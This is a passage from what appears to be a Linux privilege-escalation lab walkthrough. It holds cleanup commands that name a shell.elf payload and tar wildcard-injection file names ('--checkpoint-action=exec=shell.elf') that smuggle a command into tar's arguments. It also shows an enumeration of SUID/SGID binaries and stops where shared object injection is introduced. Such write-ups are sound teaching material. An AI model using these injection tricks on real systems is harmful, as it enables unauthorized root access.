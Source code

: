 
Remember to exit out of the root shell and delete all the files you created to prevent the cron job from executing again:

`rm /home/user/shell.elf
rm /home/user/--checkpoint=1
rm /home/user/--checkpoint-action=exec=shell.elf
`

===
TERMINATED MACHINE

```
┌──(kali㉿kali)-[~]
└─$ ssh -o HostKeyAlgorithms=+ssh-rsa user@10.10.217.88

```

```
user@debian:~$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
-rwxr-sr-x 1 root shadow 19528 Feb 15  2011 /usr/bin/expiry
-rwxr-sr-x 1 root ssh 108600 Apr  2  2014 /usr/bin/ssh-agent
-rwsr-xr-x 1 root root 37552 Feb 15  2011 /usr/bin/chsh
-rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudo
-rwxr-sr-x 1 root tty 11000 Jun 17  2010 /usr/bin/bsd-write
-rwxr-sr-x 1 root crontab 35040 Dec 18  2010 /usr/bin/crontab
-rwsr-xr-x 1 root root 32808 Feb 15  2011 /usr/bin/newgrp
-rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudoedit
-rwxr-sr-x 1 root shadow 56976 Feb 15  2011 /usr/bin/chage
-rwsr-xr-x 1 root root 43280 Feb 15  2011 /usr/bin/passwd
-rwsr-xr-x 1 root root 60208 Feb 15  2011 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 39856 Feb 15  2011 /usr/bin/chfn
-rwxr-sr-x 1 root tty 12000 Jan 25  2011 /usr/bin/wall
-rwsr-sr-x 1 root staff 9861 May 14  2017 /usr/local/bin/suid-so
-rwsr-sr-x 1 root staff 6883 May 14  2017 /usr/local/bin/suid-env
-rwsr-sr-x 1 root staff 6899 May 14  2017 /usr/local/bin/suid-env2
-rwsr-xr-x 1 root root 963691 May 13  2017 /usr/sbin/exim-4.84-3
-rwsr-xr-x 1 root root 6776 Dec 19  2010 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 212128 Apr  2  2014 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10592 Feb 15  2016 /usr/lib/pt_chown
-rwsr-xr-x 1 root root 36640 Oct 14  2010 /bin/ping6
-rwsr-xr-x 1 root root 34248 Oct 14  2010 /bin/ping
-rwsr-xr-x 1 root root 78616 Jan 25  2011 /bin/mount
-rwsr-xr-x 1 root root 34024 Feb 15  2011 /bin/su
-rwsr-xr-x 1 root root 53648 Jan 25  2011 /bin/umount
-rwxr-sr-x 1 root shadow 31864 Oct 17  2011 /sbin/unix_chkpwd
-rwsr-xr-x 1 root root 94992 Dec 13  2014 /sbin/mount.nfs
user@debian:~$ 
user@debian:~$ 

```
### SUID / SGID Executables - Shared Object Injection

The /usr/local/bin/suid-so SUID executable is vulnerable to shared object injection.
